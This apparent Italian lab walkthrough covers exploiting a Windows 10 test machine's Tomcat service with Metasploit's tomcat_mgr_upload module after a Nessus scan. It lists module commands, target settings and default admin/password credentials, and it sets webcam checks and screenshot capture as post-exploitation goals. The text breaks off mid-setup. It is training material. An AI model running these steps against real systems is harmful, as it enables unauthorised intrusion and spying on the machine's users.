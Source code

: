 ## 📋 Descrizione
Sulla macchina **Windows 10** ci sono servizi che possono essere sfruttati per ottenere una sessione Meterpreter. L'obiettivo di questa traccia è:
1. Avviare i servizi richiesti sulla macchina target.
2. Effettuare una scansione delle vulnerabilità con **Nessus**.
3. Utilizzare Metasploit per exploitare il servizio **Tomcat**.
4. Confermare l'accesso alla macchina compromessa e raccogliere evidenze:
   - Verificare se è una macchina virtuale o fisica.
   - Recuperare le impostazioni di rete.
   - Controllare la presenza di webcam.
   - Catturare uno screenshot del desktop.

## 🔧 Requisiti
- **IP Kali Linux**: `192.168.50.165`
- **IP Windows 10**: `192.168.50.3`
- **Porta di ascolto (LPORT)**: `7777`
- **Tool utilizzati**: Nessus, MSFConsole, PowerShell

## 🛠️ Passaggi Eseguiti

### **1. Preparazione dei Servizi su Windows 10**
1. Accedere alla macchina target **Windows 10** (`192.168.50.3`).
2. Aprire `Gestione Servizi` (`services.msc`).
3. Avviare il servizio **Apache Tomcat** (se non è già attivo).
4. Verificare che il servizio sia in ascolto sulla porta **8080**.

### **2. Scansione delle Vulnerabilità con Nessus**
1. Avviare il servizio Nessus su Kali Linux:
   ```bash
   sudo systemctl start nessusd
   ```
2. Accedere all'interfaccia Nessus tramite il browser: `https://localhost:8834`.
3. Creare una nuova scansione:
   - Tipo: **Basic Network Scan**.
   - Target: `192.168.50.3`.
4. Avviare la scansione e identificare le vulnerabilità relative al servizio **Tomcat**.

### **3. Exploit con Metasploit**

#### **3.1 Configurazione dell'Exploit**
1. Avviare Metasploit su Kali Linux:
   ```bash
   msfconsole
   ```
2. Cercare gli exploit disponibili per Tomcat:
   ```bash
   search tomcat
   ```
3. Selezionare l'exploit **Tomcat Manager Upload**:
   ```bash
   use exploit/multi/http/tomcat_mgr_upload
   ```
4. Configurare i parametri dell'exploit:
   - Impostare l'IP della macchina target:
     ```bash
     set RHOSTS 192.168.50.3
     set RPORT 8080
     ```
   - Configurare le credenziali di Tomcat:
     ```bash
     set HttpUsername admin
     set HttpPassword password
